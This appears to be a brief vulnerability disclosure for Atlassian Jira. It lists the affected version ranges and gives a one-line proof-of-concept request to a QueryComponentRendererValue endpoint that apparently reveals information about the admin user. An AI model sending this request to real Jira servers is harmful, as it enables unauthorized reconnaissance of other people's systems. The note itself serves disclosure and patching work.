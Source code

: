 <languages />

Affected Versions
-----------------

    Jira < 8.5.13
    8.6.0 ≤ Jira < 8.13.5
    8.14.0 ≤ Jira < 8.15.1

POC
---

    /secure/QueryComponentRendererValue!Default.jspa?assignee=user:admin

Screenshot
----------

![](Twitter_E3k2_J4VIAAWR_6.jpg "Twitter_E3k2_J4VIAAWR_6.jpg")
